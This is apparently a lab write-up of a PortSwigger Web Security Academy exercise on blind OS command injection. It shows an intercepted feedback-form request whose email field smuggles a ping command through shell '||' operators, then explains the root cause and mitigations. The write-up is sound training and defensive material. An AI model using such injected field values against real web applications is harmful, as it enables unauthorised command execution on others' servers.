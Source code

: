 💻 Blind OS Command Injection – With Time Delays
🧠 Difficulty: Apprentice
📚 Platform: PortSwigger Web Security Academy
👩‍💻 Author: Kaouthar Belkebir

📌 Lab Description
This lab is vulnerable to blind OS command injection via the feedback form.

The application executes a shell command based on submitted data but doesn't return the output.

✅ Goal: Exploit the injection to perform a time delay using ping, confirming code execution.

🧪 Exploitation Strategy
🧩 The Trick:
Because it's blind, we can't see the output.
So we use a time delay (e.g., ping) to observe if the system waits, which confirms execution.

📥 Intercepted Request (Burp Suite)
http
Copy
Edit
POST /feedback/submit HTTP/2
Host: [LAB_DOMAIN]
Cookie: session=pKZ4noaM5dQpCAdmpBSs1eCJKla9waju
Content-Type: application/x-www-form-urlencoded

csrf=...&
name=helio&
email=ha||ping+-c+10+127.0.0.1||cer@gmail.com&
subject=hello&
message=hakennhu
⏱️ The server responds after ~10 seconds — proof of command injection.

🧠 Why This Works
bash
Copy
Edit
ha||ping -c 10 127.0.0.1||cer@gmail.com
The injected ping command causes a deliberate delay.

The shell executes the payload because the input is unsanitized.

🔬 Root Cause
The app concatenates unvalidated user input into a shell command.

Lack of sanitization makes command injection trivial.

✅ Confirmation & Solution
The delayed response confirms the command executed.

This completes and solves the lab ✔️

🛡️ Mitigation Strategies
Avoid shell command concatenation with user input.

Use safe system APIs (e.g., execFile instead of exec in Node.js).

Apply input validation (whitelisting, escaping).

🖼️ Screenshot
![Blind OS Command Injection – Time Delay](https://github.com/Kabilala/OS-command-injection/lab2/lab2.png?raw=true)
